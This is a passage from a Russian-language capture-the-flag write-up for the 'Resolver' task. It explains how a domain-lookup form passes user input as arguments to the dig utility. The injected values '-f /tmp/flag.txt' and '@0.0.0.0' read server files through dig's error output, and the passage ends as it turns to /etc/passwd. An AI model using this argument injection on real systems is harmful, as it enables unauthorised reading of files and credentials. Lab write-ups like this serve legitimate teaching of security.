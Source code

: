 ```
google.com.		261	IN	A	64.233.165.113
google.com.		261	IN	A	64.233.165.102
google.com.		261	IN	A	64.233.165.139
google.com.		261	IN	A	64.233.165.100
google.com.		261	IN	A	64.233.165.138
google.com.		261	IN	A	64.233.165.101
...
yandex.ru.		299	IN	AAAA	2a02:6b8:a::a
yandex.ru.		299	IN	A	77.88.55.88
yandex.ru.		299	IN	A	5.255.255.50
yandex.ru.		299	IN	A	5.255.255.5
yandex.ru.		299	IN	A	77.88.55.50
...
```

Если дальше пофаззить поле для ввода (например, отправив туда `-h`), то можно понять, что на сервере для разрешения доменов используется утилита `dig`, а мы имеем дело с уязвимостью, позволяющей добавлять ей произвольные аргументы:

```
Usage:  dig [@global-server] [domain] [q-type] [q-class] {q-opt}
            {global-d-opt} host [@local-server] {local-d-opt}
            [ host [@local-server] {local-d-opt} [...]]
...
```

В мануале к утилите `dig` сказано, что она умеет читать команды из файла с помощью параметра `-f`. Из описания мы знаем, что нужно прочитать файл `/tmp/flag.txt`, поэтому попробуем ввести в поле `-f /tmp/flag.txt`:

```
.			86396	IN	SOA	a.root-servers.net. nstld.verisign-grs.com. 2020112800 1800 900 604800 86400
```

Нам пришёл ответ, но из-за каких-то настроек `dig` на сервере мы не видим сами команды (то есть содержимое файла), которые исполнялись. Это ограничение можно было обойти несколькими путями: например, попытаться запросить ответ у несуществующего DNS-сервера, используя параметр `@0.0.0.0` (если на машине есть локальный DNS-сервер, дополнительно нужно отправить порт командой `-p1234`). Отправив команду `@0.0.0.0 -f /tmp/flag.txt`, мы вызовем ошибку `dig` и получим первый флаг:

```
;; Connection to 0.0.0.0#53(0.0.0.0) for ctfcup{y0_y0_c4ll_m3_th3_DNS_c4tch3r} failed: connection refused.
```

Вот и первая уязвимость — чтение произвольных файлов на сервере.

---

#### Resolver II

Отлично, теперь мы умеем читать произвольные файлы. Проблема только в том, что `dig` интерпретирует файлы как набор команд, поэтому в тексте ошибки файл отображается немного искажённым — он разбивается по пробельным символам. Вот так, например, выглядит вывод `@0.0.0.0 -f /etc/passwd`:
